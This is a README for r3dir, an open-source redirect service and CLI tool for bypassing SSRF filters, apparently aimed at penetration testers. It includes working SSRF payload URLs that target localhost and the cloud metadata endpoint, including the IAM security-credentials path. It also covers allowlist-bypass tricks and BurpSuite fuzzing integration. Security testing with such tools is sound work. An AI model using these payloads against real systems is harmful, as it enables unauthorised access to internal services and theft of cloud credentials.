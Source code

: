 # r3dir 
![Version](https://img.shields.io/pypi/v/r3dir) ![PyPI pyversions](https://img.shields.io/pypi/pyversions/r3dir)  ![LICENSE](https://img.shields.io/pypi/l/r3dir)

Redirection service designed to help bypass SSRF filters that do not validate the redirect location. It allows you to:

- Define the redirection target via URL parameters or subdomains;
- Control HTTP response codes;
- Obfuscate the target URL with Base32 encoding;
- Bypass certain allowlist filters.

Details about features of HTTP redirects in SSRF cases and how to utilize them via `r3dir` tool you can find in my article.

The service is currently run at the `r3dir.me` and supports both HTTP and HTTPS.

## Usage
r3dir provides two approaches to set redirection targets: parameter-based and domain-based.

### Setting HTTP status code
Both approaches let you control HTTP status code of a response via first subdomain of `r3dir.me` URL.

```bash
302.r3dir.me -> 302 Found
307.r3dir.me -> 307 Temporary Redirect
200.r3dir.me -> 200 OK
```

You connect to r3dir via HTTP(e.g., http://307.r3dir.me), any HTTP code in `200..599` range can be used. However, due some limitations of TLS certificates(see bellow), in case of HTTPS connection only `3XX`, `200`, `404`, `500` are available.

### Parameter-based redirection
To define the redirection target via a URL parameter, use `/--to/?url=...`. This method can be used when you can use full URL as SSRF payload without limitations.

```bash
#Redirects to http://localhost with `307 Temporary Redirect` status code
https://307.r3dir.me/--to/?url=http://localhost 
```

### Domain-based redirection

Basically, you can control only host part of URL to successfully perform SSRF via HTTP redirection. While existing tools require manual configuration of redirection targets in such case, `r3dir` provides an ability to dynamically define a target via subdomains. 

![r3dir_decoding_flow_1](https://user-images.githubusercontent.com/62111809/221043190-632add79-52ef-4b74-87ce-df72bb5d76f2.png)

As you can see, subdomains contain splited Base32-encoded and compressed target which r3dir use to create redirect. 

The limitation of the solution is maximum possible length of a domain, which equals to 253 characters. Thanks to compression(around 30-40% for common SSRF payloads), it compensate Base32 encoding. Thus r3dir provides 1-to-1 ratio for encoded targets in average. It means you can use r3dir with targets up to 230 characters(considering lenght of other parts of domain).

To create encoded domain, use CLI tool or embed it in BurpSuite as Hackvertor tag(see details below).

```bash
#Redirects to http://169.254.169.254/latest/meta-data with `302 Found` status code
https://62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me
```

### Bypassing weak allowlist filters

In addition, any subdomains before `--` subdomain is ignored. The feature let bypass some weak filters which validates substring presence in a domain and works for both approaches.

```bash
#Ignores `some.domain.to.ignore` part and redirects to http://169.254.169.254/latest/meta-data
https://some.domain.to.ignore.--.62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me

#Ignores `some.domain.to.ignore` part and edirects to http://localhost
https://some.domain.to.ignore.--.307.r3dir.me/--to/?url=http://localhost
```

### Automations with r3dir

To notify that target URL is too long to encode, CLI tool raises `TooLongTarget` exception. For fuzzing in BurpSuite with Hackvertor tag or other automations, r3dir encoder has **"Slient Mode"**. Slient mode prevents `TooLongTarget` error and produce an "error domain" for decoder with SHA-1 hash of the long target.

```bash
#Example of TooLongTarget error for HTTPS enforced encoding in Slient Mode 
$ r3dir encode http://169.254.169.254/latest/meta-data/iam/security-credentials/some_role -s --slient_mode
too-long-target-2b57569cfddb7d6f61331e123da605c7573521c9.302.r3dir.me #error-domain with SHA1 hash
```

r3dir decoder will parse such "error domain" and will respond with `414 URI Too Long` status code and message like `The target length has been too long for encoder. Target's SHA-1: 2b57569cfddb7d6f61331e123da605c7573521c9`.

Also, there is [PyPi package](https://pypi.org/project/r3dir) which can be used as library for your own Python scripts and tools. Details and examples how to use you can find on PyPi page.

### HTTPS limitations

Due to [limitations of wildcard TLS cerficates](https://en.wikipedia.org/wiki/Wildcard_certificate#Limitations) which do not work with multipule wildcard domains(like `*.*.301.r3dir.me`) HTTPS domain-based redirection works with targets that are not longer that 63 symbols(maximum length of one subdomain) in encoded form. In addition, `--ignore_part` feature also is not available due to the limit. 

## CLI tool

### Installation
```bash
pip3 install r3dir
```

### Encode mode 
```bash
$ r3dir encode -h
  usage: r3dir encode [-h] [-c STATUS_CODE] [-d MAIN_DOMAIN] [-a] [-i IGNORE_PART | -s] target_url
  
  positional arguments:
    target_url            Target URL which r3dir tool should redirect to.
  
  options:
    -h, --help            show this help message and exit
    -c STATUS_CODE, --status_code STATUS_CODE
                          HTTP status code of a redirect response.
    -d MAIN_DOMAIN, --main_domain MAIN_DOMAIN
                          Domain where r3dir tool is hosted on.
    -i IGNORE_PART, --ignore_part IGNORE_PART
                          String, which will be ignored during decoding. Used to bypass weak REGEXs.
    -s, --https           HTTPS enforced encoding(TLS certificate length limitation)
    --slient_mode         Slient mode for automations(e.g Hackvertor tags)
```

### Decode mode 
```bash
$ r3dir decode -h
  usage: r3dir decode [-h] [-d MAIN_DOMAIN] encoded_url
  
  positional arguments:
    encoded_url           r3dir encoded URL to decode

  options:
    -h, --help            show this help message and exit
    -d MAIN_DOMAIN, --main_domain MAIN_DOMAIN
                          Domain where r3dir tool is hosted on.
```

## Hackvertor tag

For seamless web application fuzzing, r3dir has a custom Hackvertor tag for BurpSuite. If you haven't seen Hackvertor extension in BurpSuite before, [check it](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100).

To install r3dir Hackvertor tag in BurpSuite, follow next steps:

1. Install CLI tool
```bash
pip3 install r3dir
```

2. Run `type r3dir` to get command path (or `where r3dir` for Windows)
- Unix:
```bash
# Example output: r3dir is /opt/homebrew/bin/r3dir
type r3dir
```
- Windows:
```powershell
where r3dir
```
3. Replace `/PATH/TO/R3DIR` placeholder in `hackvertor_tag.json` with obtained path.
- Unix:
```bash
sed -i 's|/PATH/TO/R3DIR|/YOUR/PATH/TO/R3DIR|g' hackvertor_tag.json
```
- Windows:
```powershell
(Get-Content hackvertor_tag.json) | ForEach-Object { $_ -replace "/PATH/TO/R3DIR", "/YOUR/PATH/TO/R3DIR" } | Set-Content hackvertor_tag.json
```
4. Add the tag to Hackvertor extension:
- Copy content of `hackvertor_tag.json`. 
- Open Hackvertor menu in BurpSuite sidebar and ensure that ***Allow code execution tags*** is enabled. Go to ***List custom tags***.
[IMAGE]
- Then press ***Load tags from clipboard***. 

If you have your own custom tags, export them via ***Export all my tags to clipboard***, add r3dir tag to the exported JSON document and then reimport them.

## HTTP server self-hosting

To spin up own instance, follow next steps:

1. Download the repository
```bash
git clone https://github.com/Horlad/r3dir.git
cd r3dir
```

Out-of-box setup with Let's Encrypt wildcard TLS certificates autorenewal (for HTTPS support) requires the service to be hosted on DigitalOcean droplet with [added domain](https://docs.digitalocean.com/products/networking/dns/quickstart/).

2. Fill environment file (`.env`) with your registered domain (`APP_DOMAIN`), DigitalOcean API token with `read` and `write` scopes (`DO_AUTH_TOKEN`) and email for  Let's Encrypt (`LETSENCRYPT_EMAIL`)
```bash
echo $'APP_DOMAIN=YOUR_DOMAIN\nDO_AUTH_TOKEN=DO_TOKEN\nLETSENCRYPT_EMAIL=YOUR@EMAIL.COM' > .env
```

3. Docker Compose startup (Traefik + HTTP server)
```bash
docker compose up -d
```

You can custom Traefik configuration for different environments. Any configuration contributions for other platforms are highly appreciated.

In addition, if you want to use another HTTPS reverse proxy solution, you can run standalone Docker container with the HTTP service on 80 port.

3. Standalone Docker container startup(HTTP server only)
```bash
docker build . -t r3dir
docker run -p 80:80 -e MAIN_DOMAIN=127.0.0.1.traefik.me r3dir
```
